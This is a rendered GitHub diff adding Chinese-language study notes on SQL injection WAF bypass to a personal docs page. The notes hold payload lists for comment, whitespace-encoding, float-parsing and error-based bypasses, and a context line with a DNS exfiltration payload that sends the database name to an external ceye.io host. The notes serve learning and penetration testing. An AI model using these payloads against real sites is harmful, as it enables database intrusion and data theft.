

Before and after one commit to mochen072/github.io, a Markdown page: docs/SQLzr.md, the part around the change printed below. Shown: that part at 81% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/docs/SQLzr.md
+++ b/docs/SQLzr.md
@@ -384,3 +384,69 @@ select LOAD_FILE(CONCAT('\\\\',(select database()),'.mysql.xxxx.ceye.io\\abc'));
 	<figure class="thumbnails">
 	<img src="picture\SQLzhuru\二次注入1.png">
 	</figure>
+
+## <font color = #1E90FF>WAF绕过原理及分析</font>
+__熟练掌握MYSQL函数和语法使用方法+深入了解中间件运行处理机制+了解WAF防护原理及方法=随心所欲的绕过WAF防护__
+
+### <font color = #FF0000>黑盒绕过</font><BR>
+- **一.架构层绕过WAF**
+	- **1.寻找源站--->针对云WAF**
+	- **2.利用同网段--->绕过WAF防护区域**
+	- **3.利用边界漏洞--->绕过WAF防护区域**
+- **二.资源限制角度绕过WAF**
+	- **1.post大BODY**
+- **三.协议层面绕过WAF**
+	- **1.协议未覆盖绕过WAF**
+		- **请求方式变更:GET--->POST**
+		- **Content-Type变换:application/x-www-from-urlencoded;--->multipart/form-data;**
+	- **2.参数污染**
+- **四.规则层面绕过WAF（主要的绕过方式）**
+	- **1.SQL注释符绕过**
+	```
+	① Level-1: union/**/select
+	② Level-2: union/*aaaa%01bbs*/select
+	③ Level-3： union/*aaaaaaaaaa*/select
+	④ 内连注释: /*!xx*/
+	```
+	- **2.空白符绕过**
+	```
+	① MYSQL空白符: %09,%0A.%0D.%20.%0C.%A0./**/
+	② 正则的空白符: %09,%0A.%0D.%20
+	例1: union %250Cselect
+	例2: union %25A0select
+	```
+	- **3.函数分隔符**
+	```
+	① concat%2520()
+	② concat/**/()
+	③ concat%250c()
+	④ concat%25a0()
+	```
+	- **4.浮点数词法解析**
+	```
+	① select * from users where id=8E0 union select 1,2,3,4
+	② select * from users where id=8.0 union select 1,2,3,4
+	③ select * from users where id=\Nunion union select 1,2,3,4
+	```
+	- **5.利用error-based进行SQL注入:Error-based SQL注入函数非常容易被忽略**
+	```
+	① extractvalue(1,concat(0x5c,md5(3)));
+	② updatexml(1,concat(0x5c,md5(3)),1);
+	③ GeometryCollection((select * from (select * from (select@@version)f)x))
+	④ polygon((select * from (select name_const(version(),1))x))
+	⑤ linestring()
+	⑥ multipoint()
+	⑦ multilinestring()
+	⑧ multipolygon()
+	```
+	- **6.Mysql特殊语法**
+	```
+	① select {x table_name} from {x information_schema.tables};
+
+	```
+
+### <font color = #FF0000>Fuzz绕过WAF</font><BR>
+**每一个点都能找到绕过的方法<BR>以注释绕过为例子，开始Fuzz**
+<figure class="thumbnails">
+<img src="picture\SQLzhuru\注释符绕过.png">
+</figure>
````
Also changed, not shown: other parts of docs/SQLzr.md (+1 -1 lines), docs/SQLMap.md (added, +1 -0 lines), docs/picture/MssSqlzr/MSSQL注入1.png (added), docs/picture/MssSqlzr/MSSQL注入2.png (added), docs/picture/MssSqlzr/MSSQL注入3.png (added), docs/picture/MssSqlzr/MSSQL注入4.png (added), docs/picture/SQLzhuru/注释符绕过.png (added), 2 other files.
